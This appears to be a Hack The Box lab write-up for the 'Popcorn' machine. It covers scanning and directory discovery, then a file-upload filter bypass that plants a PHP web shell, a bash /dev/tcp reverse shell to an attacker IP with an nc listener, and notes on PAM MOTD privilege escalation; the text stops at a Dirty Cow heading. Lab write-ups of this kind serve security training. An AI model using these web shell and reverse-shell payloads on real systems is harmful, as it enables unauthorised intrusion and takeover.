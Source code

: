```yaml
---
title: htb popcorn
author: Yuchao
date: 2021-03-15 11:33:00 +0800
categories: [sec]
tags: [htb]
math: true
mermaid: true
---
```


## Recon

#### nmap 
```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.6
nmap -p 22,80 -sC -sV -oA scans/tcpscripts 10.10.10.6
```
- OpenSSH 5.1p1, Apache httpd 2.2.12  ---> older than Ubuntu Trusty 14.04 ---> Karmic (9.10)

#### Directory discovery
```bash
# asdf
gobuster dir -u http://10.10.10.6 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o scans/gobuster-root-med -t 40
```
- get the path: /test (Status: 200) /index (Status: 200) /torrent (Status: 301) /rename (Status: 301)
- show a PHP info page.
- ``` file_uploads ``` is set to ON
- may vulnerable to Local File Inclusion.(LFI)
- /torrent can upload image as screen shot
- and the picture is saved at ``` http://10.10.10.6/torrent/upload/ ```

## upload webshell
#### manipulate php to bypass picture filters
- 1. file extension (the server did not have check this)
- 2. Content-Type header (this filter works on the server)
- 3. magic bytes (did not work)

so just change the http header,
add the php code before a png content in Burpsuite.
```php
<?php system($_REQUEST["cmd"]);?>
```

#### upload
cmd.php seems to be rename as its hash value, as 0ba973670d943861fb9453eecefd3bf7d3054713.php.

#### execute
``` curl http://10.10.10.6/torrent/upload/0ba973670d943861fb9453eecefd3bf7d3054713.php?cmd=id ```

## reverse shell
webshell
```bash
curl http://10.10.10.6/torrent/upload/0ba973670d943861fb9453eecefd3bf7d3054713.php --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.14/443 0>&1'"
```
attacker
```bash
nc -lnvp 443
```
upgrade the shell
``` bash
python -c 'import pty;pty.spawn("bash")'
^Z
stty raw -echo
fg
```

## privesc

#### Method 1: Linux PAM vulnerability
show the programs use PAM
```
$ ls /etc/pam.d 
chfn common-account common-session lightdm login passwd runuser sshd  su-l chpasswd  common-auth common-session-noninteractive lightdm-autologin newusers polkit-1 runuser-l su
chsh common-password  cron lightdm-greeter other ppp samba sudo
```
The pam modules directory. Can be configured to the programs above
```
/usr/lib/x86_64-linux-gnu/security
```
at user`s file
``` find . -type f -ls ```
``` /.cache/motd.legal-displayed ``` looks interesting.
- Googling for “motd.legal-displayed privesc”
- https://www.exploit-db.com/exploits/14339
- Linux PAM 1.1.0 (Ubuntu 9.10/10.04) - MOTD File Tampering Privilege Escalation
- PAM will create ``` .cache/motd.legal-displayed ``` when login.
- https://askubuntu.com/questions/256020/how-can-i-stop-the-automatic-creation-of-cache-motd-legal-displayed-file
- sshd use pam to authenticate, so we need to ssh to the box.(as www-data)


#### Method 2: Dirty Cow

